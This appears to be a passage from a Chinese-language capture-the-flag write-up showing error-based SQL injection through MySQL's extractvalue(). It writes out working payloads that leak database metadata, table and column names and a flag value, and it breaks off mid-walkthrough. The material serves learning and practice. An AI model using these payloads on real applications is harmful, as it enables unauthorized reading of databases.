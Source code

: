     那就再试试 extractvalue()，输入   
`id=1 and extractvalue(1, concat(0x7e,database(),0x7e,user(),0x7e,@@datadir,0x7e));`
    成功爆出数据库及相关信息（虽然只用数据库）
    ![alt text](image-1.png)  

    然我们再看看数据库里面的表的内容 _让我看看!_(_杰哥音_)    
    输入 
`id=1 and extractvalue(1, concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e));`

        注：如果使用在concat中使用concat，则会出现‘Subquery returns more than 1 row ’的世界线，所以这里我们使用group_concat

    ![alt text](image-2.png)
    发现有fflllag和user两个表，先冲flag
    (_其实可以根据LEVEL 0猜测，user的内容就是uid，uname和uaddress_)  

    可以开罐头喽，接下来输入 
`id=1 and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='level1' and table_name='fflllag'),0x7e))--+;`
    ![alt text](image-3.png)  
    怎么还有一层，再开一次

    输入
`id=1 and extractvalue(1,concat(0x7e,(select real_flag from level1.fflllag)));`
    ![alt text](image-4.png)  
    就得到fl...欸等等，你这flag怎么只有半截啊（致敬传奇铁御安德森上校）  
